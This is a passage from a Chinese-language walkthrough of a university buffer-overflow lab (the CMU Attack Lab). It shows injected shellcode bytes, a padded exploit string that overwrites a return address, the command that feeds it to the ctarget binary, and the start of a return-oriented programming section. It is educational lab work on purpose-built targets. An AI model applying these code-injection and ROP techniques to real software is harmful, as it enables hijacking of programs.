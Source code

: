 ```assembly
t3.o:     file format elf64-x86-64
0000000000000000 <.text>:
   0:	68 fa 18 40 00       	pushq  $0x4018fa
   5:	48 8d 7c 24 08       	lea    0x8(%rsp),%rdi
   a:	c3                   	retq   

```

接下来我们就可以编写sol3.txt,记住64位机器输入指令记得补零,不然可能段错误

```
68 fa 18 40 00 48 8d 7c 
24 08 c3 00 00 00 00 00//上面的是机器指令代码
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00//填充字符
78 dc 61 55 00 00 00 00 //还是跳转到栈顶,需要padding
35 39 62 39 39 37 66 61 //存再test栈帧中的值,0x5561dca0
00 
```

最后输入以下指令

```
./hex2raw <sol3.txt >sol3r.txt && ./ctarget -q -i sol3r.txt
```

若看见以下界面,则恭喜通关!

![image-20240302020227034](https://cdn.jsdelivr.net/gh/zhzvite/picgoroom@img/img/202403020220967.png)





# Part II: ROP

## 总览

>ROP: Return-Oriented Programming
>
>什么叫Gadgets?思索许久,发现就是断章取义,重塑代码,草船借箭

得到rtarget的汇编

```
objdump -d rtarget>rtarget.s
```

Part2的限制:

1. 恢复了栈的随机化,每次栈的位置都不一样,无法决定把代码放到哪个位置
2. 恢复了栈的区域标记,分为可写,可读,可执行.

```
堆栈包含一系列小工具地址。每个gadget由一系列指令字节组成，最后一个是0xc3，编码ret指令。当程序从此配置开始执行 ret 指令时，它将启动一系列 gadget 执行，每个 gadget 末尾的 ret 指令导致程序跳转到下一个 gadget 的开头。
小工具可以使用与编译器生成的汇编语言语句相对应的代码，尤其是函数末尾的语句。在实践中，这种形式可能有一些有用的小工具，但不足以实现许多重要的操作。例如，编译函数不太可能将 popq %rdi 作为 ret 之前的最后一条指令。幸运的是，对于面向字节的指令集（例如 x86-64），通常可以通过从指令字节序列的其他部分提取模式来找到小工具。
```
